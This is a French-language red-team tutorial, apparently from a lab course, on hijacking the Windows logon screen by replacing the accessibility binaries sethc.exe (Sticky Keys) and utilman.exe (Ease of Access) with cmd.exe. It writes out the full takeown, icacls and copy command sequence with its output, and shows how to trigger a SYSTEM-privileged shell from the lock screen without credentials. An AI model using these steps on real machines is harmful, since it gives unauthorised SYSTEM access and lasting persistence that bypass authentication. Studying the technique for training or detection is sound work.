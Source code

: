 Si nous avons un accès physique à la machine (ou RDP dans notre cas), vous pouvez détourner l'écran de connexion pour accéder à un terminal sans avoir d'informations d'identification valides pour une machine.

Nous examinerons deux méthodes qui s'appuient sur des fonctionnalités d'accessibilité à cette fin.

Touches collantes

Lorsque vous appuyez sur des combinaisons de touches telles que `CTRL + ALT + DEL`, vous pouvez configurer Windows pour qu'il utilise des touches rémanentes, ce qui vous permet d'appuyer sur les boutons d'une combinaison de manière séquentielle plutôt qu'en même temps. En ce sens, si les touches rémanentes sont actives, vous pouvez appuyer et relâcher `CTRL`, appuyer et relâcher `ALT`et enfin appuyer et relâcher `DEL`pour obtenir le même effet qu'en appuyant sur la  `CTRL + ALT + DEL`combinaison.

Pour établir la persistance à l'aide de Sticky Keys, nous abuserons d'un raccourci activé par défaut dans toute installation Windows qui nous permet d'activer Sticky Keys en appuyant `SHIFT`5 fois. Après avoir saisi le raccourci, un écran qui ressemble à ceci devrait généralement s'afficher :

![27e711818bea549ace3cf85279f339c8](https://github.com/dsgsec/Red-Team/assets/82456829/bf22a836-738f-4f6b-acdc-2c8157d812ff)

Après avoir appuyé `SHIFT`5 fois, Windows exécutera le binaire dans `C:\Windows\System32\sethc.exe`. Si nous parvenons à remplacer ce binaire par une charge utile de notre préférence, nous pouvons alors le déclencher avec le raccourci. Fait intéressant, nous pouvons même le faire à partir de l'écran de connexion avant de saisir les informations d'identification.

Un moyen simple de détourner l'écran de connexion consiste à le remplacer `sethc.exe` par une copie de `cmd.exe`. De cette façon, nous pouvons générer une console en utilisant le raccourci des touches rémanentes, même depuis l'écran de journalisation.

Pour écraser `sethc.exe`, nous devons d'abord prendre possession du fichier et accorder à notre utilisateur actuel l'autorisation de le modifier. Ce n'est qu'alors que nous pourrons le remplacer par une copie de `cmd.exe`. Nous pouvons le faire avec les commandes suivantes :

Invite de commande

```
C:\> takeown /f c:\Windows\System32\sethc.exe

SUCCESS: The file (or folder): "c:\Windows\System32\sethc.exe" now owned by user "PURECHAOS\Administrator".

C:\> icacls C:\Windows\System32\sethc.exe /grant Administrator:F
processed file: C:\Windows\System32\sethc.exe
Successfully processed 1 files; Failed processing 0 files

C:\> copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
Overwrite C:\Windows\System32\sethc.exe? (Yes/No/All): yes
        1 file(s) copied.
```

Après cela, verrouillez votre session depuis le menu Démarrer :

![2faf2bec5763297beb7c921858900c57](https://github.com/dsgsec/Red-Team/assets/82456829/106fc9a6-b769-4e80-a78a-be295fb9caa5)

Vous devriez maintenant pouvoir appuyer `SHIFT`cinq fois pour accéder à un terminal avec les privilèges SYSTÈME directement depuis l'écran de connexion :

![5062148957ec1d70dccd080bdca93ddf](https://github.com/dsgsec/Red-Team/assets/82456829/d88e7cbf-cf50-4849-adb4-e40fee28cbd9)


Utilman

Utilman est une application Windows intégrée utilisée pour fournir des options de facilité d'accès pendant l'écran de verrouillage :

![73c7698a015de5a988fd815ff3e41473](https://github.com/dsgsec/Red-Team/assets/82456829/6949803c-b647-4602-bc06-39aa1e4563ca)

Lorsque nous cliquons sur le bouton de facilité d'accès sur l'écran de connexion, il s'exécute `C:\Windows\System32\Utilman.exe`avec les privilèges SYSTÈME. Si nous le remplaçons par une copie de `cmd.exe`, nous pouvons à nouveau contourner l'écran de connexion.

Pour remplacer `utilman.exe`, nous effectuons un processus similaire à ce que nous avons fait avec`sethc.exe` :

Invite de commande

```
C:\> takeown /f c:\Windows\System32\utilman.exe

SUCCESS: The file (or folder): "c:\Windows\System32\utilman.exe" now owned by user "PURECHAOS\Administrator".

C:\> icacls C:\Windows\System32\utilman.exe /grant Administrator:F
processed file: C:\Windows\System32\utilman.exe
Successfully processed 1 files; Failed processing 0 files

C:\> copy c:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
Overwrite C:\Windows\System32\utilman.exe? (Yes/No/All): yes
        1 file(s) copied.
```

Pour déclencher notre terminal, nous verrouillerons notre écran à partir du bouton démarrer :

![1f94b28361ffebbf70d280755821bc12](https://github.com/dsgsec/Red-Team/assets/82456829/c0f8a235-4827-4df9-adbe-10c55dac96b2)

Et enfin, cliquez sur le bouton « Facilité d'accès ». Puisque nous avons remplacé `utilman.exe`par une `cmd.exe`copie, nous obtiendrons une invite de commande avec les privilèges SYSTEM :

![0fe1901296108241e2700abf87fa6a27](https://github.com/dsgsec/Red-Team/assets/82456829/b8a8ba6a-c8be-4748-8f4e-66fd42551665)
